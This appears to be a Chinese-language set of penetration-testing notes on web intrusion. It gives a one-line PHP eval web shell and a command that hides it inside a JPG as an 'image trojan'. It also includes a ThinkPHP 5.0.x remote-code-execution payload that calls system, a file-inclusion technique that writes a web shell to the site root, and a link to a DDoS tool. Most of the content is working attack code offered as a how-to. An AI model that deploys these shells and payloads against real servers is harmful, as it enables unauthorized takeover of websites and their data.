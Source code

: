 > 相关站点参考：
>
> <https://null-byte.wonderhowto.com/how-to/top-80-websites-available-tor-network-0186117/>









### 相关工具制作以及利用

#### 图片木马&一句木马

参考：<https://www.guhei.net/post/jb2536>

PHP 环境：

```shell
# cat test.php
<?php
eval($_GET["shell"]);
?>
## 访问打印phpinfo
http://IP/test.php?shell=phpinfo();
其中shell可以是任意字符串，用于传入php语句
http://IP/test.php?shell=echo(__DIR__);
输出当前脚本所在的目录
## 原理： ##
php 中的 eval 函数将接收一个字符串参数，并将这个字符串作为命令语句执行，上面的是 get 请求，post 请求也大同小异。
```

一句话图片木马制作

1）windows cpoy 功能

```shell
copy 1.jpg/b + test.php/a 2.jpg
用16进制软件打开2.jpg可以看到里面的test.php代码
```



图片木马利用：

前提：需要有文件包含漏洞，可以是 php 代码漏洞，也可以是 nginx/php-fpm 漏洞/配置文件漏洞。即本地文件包含漏洞及解析漏洞。





## 渗透中 PoC、Exp、Payload 与 Shellcode 的区别

PoC，全称“Proof of Concept”，中文“概念验证”，常指一段漏洞证明的代码。

Exp，全称“Exploit”，中文“利用”，指利用系统漏洞进行攻击的动作。

Payload，中文“有效载荷”，指成功 exploit 之后，真正在目标系统执行的代码或指令。

Shellcode，简单翻译“shell 代码”，是 Payload 的一种，由于其建立正向/反向 shell 而得名。

通俗理解：

想象自己是一个特工，你的目标是监控一个重要的人，有一天你怀疑目标家里的窗子可能没有关，于是你上前推了推，结果推开了，这是一个 PoC，于是你回去了，开始准备第二天的渗透计划，第二天你通过同样的漏洞渗透进了它家，仔细查看了所有的重要文件，离开时还安装了一个隐蔽的窃听器，这一天你所做的就是一个 Exp，你在他家所做的就是不同的 Payload，就把窃听器当作 Shellcode 吧







## 入侵实例1

参考：<https://zhuanlan.zhihu.com/p/59071838>

1）找后台



2）识别CMS

挖掘漏洞：

​	黑盒审计

​	白盒审计

发现：ThinkPHP Fastadmin

3）ThinkPHP版本漏洞

查看版本：

```shell
# find ./thinkphp -name "*.php" |xargs grep -i version
./base.php:define('THINK_VERSION', '5.0.22');
```

在thinkphp5.0.x版本中，文件/thinkphp/library/think/Request.php包含了处理请求的Request类，在Method方法中，表单伪装变量对该方法的变量进行覆盖，可以实现对该类的所有函数进行调用。

在Request类中，我们看一下__construct析构方法。如果该类属性不存在，就会调用默认配置文件中的default_filter的值。如果该类属性存在，就会对$option数组进行遍历，将该类属性赋值为$option数组中键对应的值

因此，我们可以构造一个Payload：s=ipconfig&_mehthod=__construct$method=&filter[]=system







### PHP代码的三种写法

```shell
1. <? phpinfo(); ?>
2. <?php phpinfo(); ?>
3. <script language="php"> phpinfo(); </script>
```





### 文件包含getshell

上传图片格式大马：

```shell
<?php$test='大马代码';//访问这个文件大马的代码将被写入网站的根目录2.php下 （路径phpinfo得到）file_put_contents("/home/www/webdata/epage/2.php", $test);
```

include文件包含：

`<script language="php">include '../ezfiles/2/1002/img/92/123.jpg';//上传的图片地址</script>`





# DDOS

<https://github.com/OffensivePython/Saddam>

